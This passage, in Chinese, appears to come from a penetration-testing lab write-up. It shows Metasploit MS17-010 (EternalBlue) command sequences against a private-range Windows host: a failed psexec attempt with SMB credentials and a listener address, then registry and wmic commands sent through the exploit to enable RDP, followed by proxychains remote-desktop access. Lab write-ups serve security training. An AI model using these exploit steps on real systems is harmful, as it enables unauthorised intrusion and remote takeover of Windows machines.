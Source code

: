 正向连接（未成功）：

```bash
利用 exploit/windows/smb/ms17_010_psexec 尝试正向连接

search ms17-010
use exploit/windows/smb/ms17_010_psexec
show options
set rhosts 192.168.52.141
set payload
set lhost 192.168.82.3
set lport 7777
set SMBuser srn7
set SMBpass P@ssword
exploit
```

开启 3389 端口：

```bash
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set COMMAND wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
exploit
```

上面这个没有开启成功，下面这个成功了

```bash
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```

远程连接：直接在 msf 里 rdesktop 192.168.52.141 或者另起终端 proxychains rdesktop 192.168.52.141 或者全局代理直接本机远程连接均可；

[![](assets/1701827767-eb33cb7119def0e32500d93c563b251b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192348-435d3a44-9105-1.png)
